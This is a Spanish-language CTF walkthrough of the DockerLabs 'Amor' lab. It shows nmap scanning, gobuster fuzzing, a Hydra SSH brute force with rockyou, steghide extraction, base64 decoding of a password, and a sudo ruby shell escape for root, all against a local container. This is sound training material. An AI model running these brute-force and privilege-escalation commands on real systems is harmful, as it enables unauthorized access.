

# 🐳 DockerLabs - actividad individual “Amor”

## 🎯 Objetivo del Laboratorio

El objetivo de este reto fue la aplicación de técnicas de ciberseguridad ofensiva mediante el despliegue de un entorno CTF utilizando **Docker**. Se resolvieron desafíos progresivos utilizando herramientas como **Nmap**, **Hydra**, **Gobuster**, **Steghide**, orientadas a la explotación y escalada de privilegios. En casi un ejercicio de capturar la bandera.

---

## 🛠 Herramientas y Funcionalidades

| Herramienta     | Descripción breve             | Funcionalidad principal               | Casos de uso típicos                  |
|------------------|-------------------------------|----------------------------------------|----------------------------------------|
| **Docker**       | Plataforma de contenedores    | Ejecutar entornos aislados             | Simular laboratorios CTF               |
| **Nmap**         | Escáner de red                | Detectar puertos y servicios activos   | Enumeración de red inicial             |
| **Netdiscover**  | Descubrimiento ARP            | Identificar IPs en red local           | Encontrar contenedores en Docker       |
| **Gobuster**     | Fuzzing HTTP                  | Enumerar rutas ocultas en servidores   | Detectar páginas sensibles             |
| **Hydra**        | Fuerza bruta de credenciales  | Automatizar ataques de login           | Descifrar contraseñas débiles          |
| **Steghide**     | Esteganografía                | Extraer datos ocultos en imágenes      | Forense digital                        |
| **SCP**          | Copia remota segura           | Transferencia de archivos vía SSH      | Extraer evidencia                      |
| **Base64**       | Codificación binaria a texto  | Decodificar cadenas ocultas            | Análisis de contraseñas                |

---

## 🧪 Ejercicio Práctico Paso a Paso

### 📦 Transferencia del reto a Kali

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

---

### 🐳 Instalación y despliegue del entorno con Docker

```bash
sudo apt update && sudo apt install docker.io -y
cd amor/
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
```

---

### 🌐 Identificación de red

```bash
ip a
```

📌 Alternativas: `ifconfig`, `nmcli`

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

---

### 🔍 Escaneo con Nmap

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

📌 Alternativas:
```bash
nmap -T4 -A -v
nmap -O
nmap -sU
```

---

### 🧭 Fuzzing con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

📌 Flags útiles:
- `-x php,html` → Probar extensiones
- `-o resultado.txt` → Guardar salida
- `-s 200,204,301` → Filtrar por códigos válidos

---

### 🔐 Ataque por Fuerza Bruta con Hydra

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

📌 Variantes:
```bash
hydra -L users.txt -P rockyou.txt ssh://172.17.0.2
hydra -s 2222 ...
hydra -V ...
```

---

### 🧑‍💻 Conexión por SSH y navegación

```bash
ssh carlota@172.17.0.2
cd /home/carlota/Desktop/fotos/vacaciones/
```

---

### 📤 Descarga de archivo sospechoso

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor/
```

---

### 🧬 Esteganografía con Steghide

```bash
steghide --extract -sf imagen.jpg
```

📌 Resultado: archivo oculto `secret.txt`.

---

### 🔓 Decodificación en Base64

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```

---

### ⚡ Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
```

---

## 🔁 Diagrama de Flujo del Procedimiento



---

## 🖼️ Imágenes

```markdown


```

---

## 📚 Fuentes y Referencias

- [DockerLabs.es - Reto Amor](https://dockerlabs.es)
- [THC-Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Nmap.org](https://nmap.org/book/man.html)
- [Steghide en Kali](https://pkg.kali.org/pkg/steghide)
- [Gobuster - Herramienta oficial](https://github.com/OJ/gobuster)
- [GNU Base64 Manual](https://www.gnu.org/software/coreutils/manual/html_node/base64-invocation.html)

---

## ✅ Conclusiones

Este reto fue una excelente práctica ofensiva en un entorno controlado. Desde el despliegue del laboratorio hasta la explotación de servicios, análisis forense y escalada de privilegios, se aplicaron múltiples técnicas reales del hacking ético. La documentación presentada busca ser clara, técnica y replicable.
